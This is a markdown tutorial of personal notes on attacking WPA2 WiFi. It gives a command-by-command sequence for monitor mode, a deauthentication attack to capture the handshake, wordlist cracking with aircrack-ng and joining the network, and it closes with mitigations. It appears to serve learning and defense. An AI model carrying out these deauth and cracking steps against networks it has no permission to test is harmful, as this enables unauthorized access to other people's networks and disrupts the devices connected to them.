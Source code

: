 
# Intro to WiFi Hacking Notes
- Notes by Anthony Picarello (BluP3gu1n)

## **Do not use these techniques on networks you are not given permission to attack, you will get in trouble**


### Tools
	- Aircrack-ng Suite
	- WiFi Pineapple
	- FlipperZero
	- WiFi Adapter
	- WiFi Cantenna / Extender
	- WiGLE
	- hashcat
	- crewl
	- crunch

### WPA2 Attack Methodology 

1. Get WiFi Adapter online in Kali
	1. Install Drivers (Alfa WiFi Card steps below)
	    1. Install Linux Kernel Headers
	    ```bash
	    sudo apt-get install linux-headers-$(uname -r)
	    ```
	    2. Clone GitHub package to /opt folder
	    ```bash
	    cd /opt
	    sudo git clone https://github.com/morrownr/8812au-20210629.git
	    ```
	    3. Run script
	    ```bash
	    cd /opt/8812au-20210629
	    sudo ./install-driver.sh
	    ```
	    4. Type 'No' when asked to change settings and 'Yes' to reboot
	    5. After reboot Alfa Adapter should light up and should be visible with the following command:
	    ```bash
	    iwconfig
	    ```
	2. Put adapter into monitor mode
	    1. Need to run airmon-ng with check-kill option:
	    ```bash
	    sudo airmon-ng check kill
	    sudo airmon-ng start <interface>
	    ```
2. Scan WiFi networks
    ```bash
    sudo airodump-ng <interface>
    ```
	1. Need to Identify the Following Info:
		1. BSSID (Access Point MAC Address)
		2. Channel number
		3. Client MAC Address
		4. Channel number
		5. Potential passwords
3. Launch DeAuth Attack on Client while listening to traffic
	1. Traffic can be captured with either airodump or wireshark
	2. Run aireplay
		1. Make sure to send a small number of deauth packets to capture handshake
	```bash
	sudo aireplay-ng -0 1 -a <BSSID> -c <Client mac (Station)> <name of interface> 
	```
	3. Stop traffic collection
4. Crack WiFi password
	1. Use aircrack-ng or hashcat`
		1. Run against a common wordlist (rockyou.txt) or generate your own wordlist (crewl, crunch or manually)
     	```bash
      	sudo aircrack-ng -w /path/to/wordlist <name of .cap file> 
      	```
5. One password is obtained, get on the network
	1. Need to restart network manager service
   		```bash
     		sudo ifconfig <interface> up
		sudo service NetworkManager restart
     		```
	2. Connect
	3. Complete additional objectives


### Mitigation's for WiFi attacks

- Use up-to-date encryption (WPA3)
- Use long and complex passwords not tied to anything in your personal life
- Have an isolated guest network for visitors
- Use a VPN when on public WiFi with others
- Turn off WiFi on phone when out and about
- Check and double check before connecting to a WiFi network

### Links

- Alfa WiFi adapter: https://www.amazon.com/Network-AWUS036ACS-Wide-Coverage-Dual-Band-High-Sensitivity/dp/B0752CTSGD/ref=sr_1_4

- Drivers for WiFi adapter: https://docs.alfa.com.tw/Support/Linux/RTL8811AU/

- Max Vision video: https://www.youtube.com/watch?v=cO1LRhcImSc

- Darknet Diaries Episode: https://darknetdiaries.com/episode/85/

